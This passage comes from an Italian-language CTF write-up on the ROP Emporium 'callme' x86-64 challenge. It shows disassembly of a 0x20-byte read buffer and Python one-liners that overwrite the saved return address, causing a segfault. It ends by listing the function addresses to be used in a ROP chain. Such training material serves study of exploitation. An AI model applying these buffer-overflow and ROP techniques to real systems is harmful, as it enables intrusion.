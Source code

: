 ```text
│           0x004008e0      e82bfeffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x004008e5      bf160a4000     mov edi, str.Thank_you_     ; 0x400a16 ; "Thank you!" ; const char *s
│           0x004008ea      e8e1fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004008ef      90             nop
│           0x004008f0      c9             leave
└           0x004008f1      c3             ret
[0x00400898]> afv
var void * buf @ rbp-0x20

```

Verifichiamo:

```bash
$ # Filling the buffer
$ python3 -c 'print("A"*0x20)' | ./callme 
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!

Exiting

$ # Corrupting the saved rip 
$ python3 -c 'print("A"*0x20 + "B"*0x8 + "C"*0x8)' | ./callme 
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
Segmentation fault (core dumped)

$ sudo dmesg
[ 1657.437456] traps: callme[3644] general protection fault ip:4008f1 sp:7ffcbba70558 error:0 in callme[400000+1000]

```

## Manual Exploitation - x86-64

Come per la versione *x86*, anche in questo caso deve essere costruita una *rop chain* per invocare:

- **callme_one**: 0x00400720 
- **callme_two**: 0x00400740
- **callme_three**: 0x004006f0
